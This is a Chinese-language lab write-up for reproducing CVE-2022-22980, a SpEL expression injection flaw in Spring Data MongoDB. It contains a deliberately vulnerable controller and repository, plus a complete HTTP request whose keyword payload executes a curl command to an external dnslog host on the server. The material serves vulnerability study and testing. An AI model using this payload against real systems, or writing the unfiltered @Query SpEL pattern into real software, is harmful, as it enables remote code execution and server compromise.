

# CVE-2022-22980 Spring Data MongoDB SpEL表达式注入漏洞

​	Spring Data for MongoDB 是 Spring Data 项目的一部分，该项目旨在为新数据存储提供熟悉且一致的基于 Spring 的编程模型，同时保留特定于存储的特性和功能。Spring Data MongoDB 项目提供与 MongoDB 文档数据库的集成。Spring Data MongoDB 的关键功能是以 POJO 为中心的模型，用于与 MongoDB DBCollection 交互并轻松编写 Repository 样式的数据访问层。

​	Spring Data MongoDB为MongoDB提供接口服务，便于接入Spring软件生态中使用。当使用@Query或@Aggregation注解进行查询时，若通过SpEL占位符获取输入参数，并且未对用户输入进行有效过滤，则可能受该漏洞影响。在前述条件下，攻击者可利用该漏洞，构造恶意数据执行远程代码，最终获取服务器权限。


**项目地址**

https://spring.io/projects/spring-data-mongodb


## 漏洞环境


执行如下命令启动一个spring-data-mongodb-demo-web服务：

```
docker compose up -d
```


服务启动后，访问`http://your-ip:8080/demo`即可查看到mongodb demo示例。


demo示例

```java
@RestController
public class DemoController {

  private final DemoRepository demoRepository;

  public DemoController(DemoRepository demoRepository) {
    this.demoRepository = demoRepository;
  }

  @RequestMapping(value = "/demo")
  public List<?> demo(@RequestParam(name = "keyword") String keyword) {
    return demoRepository.findAllByIdLike(keyword);
  }
}
```


```java
@org.springframework.stereotype.Repository
public interface DemoRepository extends Repository<Demo, String> {

  @Query("{ id : :#{?0} }")
  List<Demo> findAllByIdLike(String keyword);

}
```


## 漏洞复现

向demo打入如下payload

```
POST /demo HTTP/1.1
Host: your-ip:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

keyword=T(java.lang.String).forName('java.lang.Runtime').getRuntime().exec('curl ivjsu3.dnslog.cn')
```

